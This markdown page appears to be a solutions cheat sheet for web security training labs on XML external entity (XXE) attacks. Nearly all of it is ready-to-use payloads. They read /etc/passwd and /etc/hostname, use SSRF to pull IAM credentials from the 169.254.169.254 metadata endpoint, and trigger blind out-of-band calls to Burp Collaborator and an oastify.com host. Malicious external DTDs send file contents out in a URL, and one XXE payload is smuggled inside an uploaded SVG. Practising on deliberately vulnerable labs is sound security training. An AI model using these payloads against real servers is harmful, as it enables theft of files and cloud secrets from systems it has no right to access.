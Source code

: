 ## Exploiting XXE using external entities to retrieve files

Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

## Exploiting XInclude to retrieve files

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Exploiting XXE to perform SSRF attacks

Insert the following external entity definition in between the XML declaration and the stockCheck element:

```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```
Iteratively update the URL in the DTD to explore the API until you reach `/latest/meta-data/iam/security-credentials/admin`. 
This should return JSON containing the SecretAccessKey. 

## Blind XXE with out-of-band interaction

```
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
+ replace ProductId with: &xxe;
```
```
<!DOCTYPE stockcheck [<!ENTITY % h1z54 SYSTEM "http://5lrwsx6c6dlkgmtrewokp6zxooufic61.oastify.com">%h1z54; ]>
```

Replace the productId number with a reference to the external entity: &xxe;

## Blind XXE with out-of-band interaction via XML parameter entities
```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```

## Exploiting blind XXE to retrieve data via error messages

Exploit Server:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
Between XML declaration and stockCheck:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```


## Exploiting blind XXE to exfiltrate data using a malicious external DTD

Exploit Server:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```
Between XML declaration and stockCheck:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL (exploit server)"> %xxe;]>
```

## Exploiting XXE via image file upload

1) Create a local SVG image with the following content: 
```
## <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

2) Post a comment on a blog post, and upload this image as an avatar. 
3) When you view your comment, you should see the contents of the /etc/hostname file in your image.
